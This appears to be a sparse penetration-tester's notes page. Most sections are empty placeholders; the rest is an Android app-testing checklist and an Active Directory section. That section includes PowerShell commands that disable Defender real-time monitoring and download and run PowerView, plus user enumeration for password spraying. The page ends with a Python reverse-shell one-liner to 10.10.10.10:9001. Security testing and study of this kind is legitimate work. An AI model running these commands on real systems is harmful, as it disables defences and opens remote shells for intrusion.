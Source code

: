 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    ### Checklist
    <br>
1. unzip -d and apktool -d both (different outputs at time)
    <br>
2. check for /assets and /res/raw (api keys, encryption keys)
<br>
    
3. sensitive files and external storage (world readable  & writeable)
    <br>
4. executables & log files on external storage
    <br>
5. look at manifest (WRITE_EXTERNAL_STORAGE)., grep for "getExternal"
    <br>
6. check for installed package "vnd.android.package-archive" (they want to install something)
    <br>
7. hidden directories (.folder)
    <br>
8. api keys saved as bytearray to obfuscate
    <br>
9. identify crypto & understand it
    <br>
10. webSettings.setJavaScriptEnabled(True); means we might be able to XSS
    <br>
11. interesting options: "setAllowContent", "setAllowFileAccess", "setAllowFileAccessFromFileURILS", "setAllowUniversalAccessFromFileURLs", "setJavaScriptEnabled", "setPluginState", "setSavePassword"
    <br>
12. overwriting ssl errors :facepalm:
    <br>
13. xss might allow to call Runtime.getRuntime().exec() (CVE-2012-6636) <= Api17
      <br>                                                                     
14. use Mitm Proxy (mitm.it has the cert)
      <br>                                                                     
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>*NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE DIRECTORY</b> </summary><blockquote>
  <details><summary>Initial Access</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Domain Enumeration And Attack</summary><blockquote>
    :smile:
     # Patch AMSI or disable AV
    <br>
    ```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_Dev.ps1')
    ```
    <br>
    # Get all the users in the domain


    # Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying 
    ```powershell
      Get-NetUsers | select samaccountname > username.txt
      
      # Get all the computers in the domain
      Get-NetComputer

      # Get information about specific computer
      Get-NetComputer -Identity <computer_name>

    ```

  </blockquote></details>
    <details><summary>Lateral Movements</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>
<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<br/>
<br/>


```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```